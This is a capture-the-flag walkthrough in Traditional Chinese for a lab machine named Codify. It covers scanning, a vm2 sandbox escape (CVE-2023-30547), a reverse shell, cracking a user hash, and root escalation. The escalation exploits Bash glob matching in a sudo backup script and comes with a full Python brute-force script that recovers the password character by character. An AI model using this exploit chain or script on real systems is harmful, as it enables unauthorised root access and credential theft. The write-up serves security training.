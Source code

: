 ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/6ff5a5c6-fe10-43d6-8b99-eacbe9c68a11)Codify
===
尋找user.txt
---
      1.使用nmap進行掃描

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0c00ac91-6a05-4b20-9a49-cd2f7a803930)

      2.使用80 port為進入點，瀏覽網頁

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/71fa5ff9-33cd-4343-baf9-9262c677d5ac)

      3.使用 vm2 庫在沙箱環境中運行 Javascript 程式碼。在查找 vm2 庫中的當前漏洞後，發現了CVE-2023-30547，它允許攻擊者繞過沙箱限制並在主機環境中執行任意程式碼。

   [CVE-2023-30547](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

      4.在runtime環境下執行POC指令測試使用cat /etc/passwd

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/13170605-5477-4863-8cbc-ff48a9a65ee7)

      5.使用reverse shell

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0ed4a6d2-aa3c-45e2-af79-f4b7d588acf9)

      6.進入/var/www/contact目錄，檢視tickets.db拿到joshua密碼HASH

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/bfb6ea03-f494-4d0b-b431-dc358a937d1d)

      7.破解密碼HASH後，登入joshua

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/87abbb76-f893-427a-a1cc-83caa6844a99)

      8.拿到user.txt

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a17fbfe0-ddc3-46cd-9708-f6ee904dfbb5)

尋找root.txt
---

      9.執行sudo -l 確認可執行指令

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/35fecdc5-8641-422f-aeed-82fb65c52c04)

      10.分析mysql-backup.sh內容

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/fcc7ea94-9229-405b-a45d-912a4fef8cf9)

      11.腳本的這一部分將使用者提供的密碼 (USER_PASS) 與實際資料庫密碼 (DB_PASS) 進行比較。這裡的漏洞是由於 Bash 中 [[ ]] 內部使用了 == ，它執行模式匹配而不是直接字串比較。
      這意味著使用者輸入 (USER_PASS) 被視為一種模式，如果它包含像 * 或 ? 這樣的全域字符，它可能會匹配意外的字串。
      例如，如果實際密碼（DB_PASS）是password123，並且使用者輸入*作為其密碼（USER_PASS），則模式匹配將成功，因為*匹配任何字串，從而導致未經授權的存取。
      **這意味著我們可以暴力破解 DB_PASS 中的每個字元**

      12.使用腳本進行密碼破解

      import string
      import subprocess
      all = list(string.ascii_letters + string.digits)
      password = ""
      found = False

      while not found:
          for character in all:
              command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
              output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

              if "Password confirmed!" in output:
                  password += character
                  print(password)
                  break
          else:
              found = True
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/532a4da9-484b-4d50-b4d2-27a156a56160)

       13.登入root，拿到root.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/2eb65333-af7c-4bd1-b6b7-79c563f6a584)
